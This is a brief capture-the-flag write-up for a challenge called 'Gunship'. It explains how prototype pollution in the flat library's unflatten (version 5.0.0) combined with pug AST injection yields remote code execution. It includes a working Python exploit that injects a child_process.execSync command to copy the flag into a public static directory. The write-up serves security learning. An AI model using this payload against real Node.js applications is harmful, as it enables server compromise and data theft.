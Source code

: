  ## Gunship
 
At the routes/index.js I saw unflatten and pug libraries, with versions 5.0.0 and 3.0.0 respectively 

Then looked what has changed for this version
https://github.com/hughsk/flat/compare/5.0.0...5.0.1
 
At start I saw "Fix prototype pollution on unflatten" string

By this code https://github.com/hughsk/flat/commit/20ef0ef55dfa028caddaedbcb33efbdb04d18e13 I got thought that I can add something to String throught ```__proto__``` and then force pug to execute it.

By googling about the polution I found https://blog.p6.is/AST-Injection/ and use information and code from it to run a shell command that read the flag (by wildcard coz the name is random except prefix) to file in static directory, that available to read.

```python
import requests

URL = "http://138.68.161.230:31811"

requests.post(URL+'/api/submit', json = {
    "artist.name":"Gingell",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`sh -c 'cat /app/flag*>/app/static/flag'`)"
    }
    })
print(requests.get(URL+'/static/flag').text)
```